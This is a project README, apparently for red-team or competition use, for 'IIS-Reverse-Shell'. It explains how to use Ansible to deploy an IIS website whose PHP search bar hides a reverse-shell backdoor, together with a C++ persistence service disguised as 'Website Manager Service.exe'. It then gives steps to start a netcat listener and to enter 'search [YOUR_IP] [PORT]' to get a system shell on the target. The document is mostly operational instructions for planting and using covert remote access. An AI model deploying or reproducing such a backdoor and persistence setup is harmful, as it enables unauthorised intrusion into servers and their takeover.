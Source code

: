 # IIS-Reverse-Shell

## Overview
This project demonstrates setting up a reverse shell on an IIS server. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of the IIS server.
- **PHP Scripts**: Facilitate the reverse shell functionality.
- **Website Content**: HTML and related assets for the web interface.

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   └── UB_Lockdown/
│       ├── gallery1.jpg
│       ├── gallery2.jpg
│       ├── gallery3.jpg
│       ├── Sponsor1.png
│       └── logo.png
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
├── Persistence/
│   ├── Main.cpp
│   ├── Service.h
│   ├── Service.cpp
│   ├── Persistence.h
│   ├── Persistence.cpp
│   └── Website Manager Service.exe
└── Website/
    ├── UB_Lockdown.html
    ├── button.js
    └── web.config
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/UB_Lockdown/`**: Directory with images used in the website.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`Website/`**: HTML and CSS files for the website's frontend.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Ansible Packages**:
  ```sh
  ansible-galaxy collection install ansible.windows community.windows
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
    [IP_1]
    [IP_2]
    ...
    [IP_X]
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 4. Spawn a Reverse Shell
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.
